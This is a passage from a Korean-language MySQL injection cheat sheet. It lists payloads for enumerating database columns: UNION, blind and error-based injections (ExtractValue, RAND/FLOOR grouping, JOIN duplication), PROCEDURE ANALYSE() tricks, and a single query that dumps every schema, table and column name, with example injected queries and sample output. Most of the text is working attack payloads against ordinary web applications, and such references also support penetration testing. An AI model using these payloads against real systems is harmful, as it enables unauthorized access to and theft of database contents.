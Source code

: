 `UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'`<br><br>

ⓑ Blind<br><br>

`AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'`<br><br>

ⓒ Error<br><br>

`AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))<br><br>

(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);<br><br>

AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5<br><br>

AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1<br><br>

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)<br><br>

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)`<br><br>

ⓓ PROCEDURE ANALYSE()<br><br>

`PROCEDURE ANALYSE()`<br><br>

노트 :<br>
웹 응용 프로그램에서 주입하려는 SQL 쿼리에 선택한 컬럼 중 하나를 표시해야 함.<br>
PROCEDURE ANALYSE() 함수는 MySQL 3.23.x 이상 버전에서 사용 가능한 기능으로 테이블 각 열에 대한 최적의 데이터 형식을 제공하거나 현재 쿼리에서 사용되고 있는 Column 에 관한 정보를 뿌려주는 역할을 함.<br><br>

예 :<br>
`주어진 쿼리 SELECT username, permission FROM Users WHERE id = 1;`<br><br>

`1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;첫 번째 컬럼의 이름 가져오기<br>
1 LIMIT 1,1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;두 번째 컬럼의 이름 가져오기<br>
1 LIMIT 2,1 PROCEDURE ANALYSE()&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;세 번째 컬럼의 이름 가져오기`<br><br>

④ 한 번에 여러 테이블/컬럼 검색<br><br>

`SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x`<br><br>

예 :<br>
`SELECT * FROM Users WHERE id = '-1' UNION SELECT 1, 2, (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x), 4--+';`<br><br>

결과값 :<br>
`[ information_schema ] >CHARACTER_SETS > CHARACTER_SET_NAME<br>
[ information_schema ] >CHARACTER_SETS > DEFAULT_COLLATE_NAME<br>
[ information_schema ] >CHARACTER_SETS > DESCRIPTION<br>
[ information_schema ] >CHARACTER_SETS > MAXLEN<br>
[ information_schema ] >COLLATIONS > COLLATION_NAME<br>
[ information_schema ] >COLLATIONS > CHARACTER_SET_NAME<br>
[ information_schema ] >COLLATIONS > ID<br>
[ information_schema ] >COLLATIONS > IS_DEFAULT<br>
[ information_schema ] >COLLATIONS > IS_COMPILED`<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"